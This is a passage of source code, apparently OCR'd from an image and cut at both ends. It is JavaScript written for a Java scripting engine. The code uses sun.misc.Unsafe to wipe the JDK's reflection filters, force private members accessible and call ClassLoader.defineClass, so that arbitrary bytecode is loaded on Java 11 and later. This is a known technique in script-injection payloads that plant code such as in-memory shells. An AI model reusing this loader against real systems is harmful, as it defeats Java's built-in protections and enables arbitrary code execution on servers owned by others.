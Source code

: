 ```
            .isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))
    ) {
        unsafe.putObject(
            reflectionClass,
            unsafe.staticFieldOffset(fieldFilterMapField),
            java.lang.Class.forName("java.util.HashMap")
                .getConstructor()
                .newInstance()
        );
    }
    if (
        methodFilterMapField
            .getType()
            .isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))
    ) {
        unsafe.putObject(
            reflectionClass,
            unsafe.staticFieldOffset(methodFilterMapField),
            java.lang.Class.forName("java.util.HashMap")
                .getConstructor()
                .newInstance()
        );
    }
    removeClassCache(java.lang.Class.forName("java.lang.Class"));
}

function setAccessible(accessibleObject) {
    var unsafe = getUnsafe();
    var overrideField = java.lang.Class.forName(
        "java.lang.reflect.AccessibleObject"
    ).getDeclaredField("override");
    var offset = unsafe.objectFieldOffset(overrideField);
    unsafe.putBoolean(accessibleObject, offset, true);
}

function defineClass(bytes) {
    var clz = null;
    var version = java.lang.System.getProperty("java.version");
    var unsafe = getUnsafe();
    var classLoader = new java.net.URLClassLoader(
        java.lang.reflect.Array.newInstance(
            java.lang.Class.forName("java.net.URL"),
            0
        )
    );
    try {
        if (version.split(".")[0] >= 11) {
            bypassReflectionFilter();
            defineClassMethod = java.lang.Class.forName(
                "java.lang.ClassLoader"
            ).getDeclaredMethod(
                "defineClass",
                java.lang.Class.forName("[B"),
                java.lang.Integer.TYPE,
                java.lang.Integer.TYPE
            );
            setAccessible(defineClassMethod);
            clz = defineClassMethod.invoke(classLoader, bytes, 0, bytes.length);
        } else {
            var protectionDomain = new java.security.ProtectionDomain(
                new java.security.CodeSource(
                    null,
                    java.lang.reflect.Array.newInstance(
```
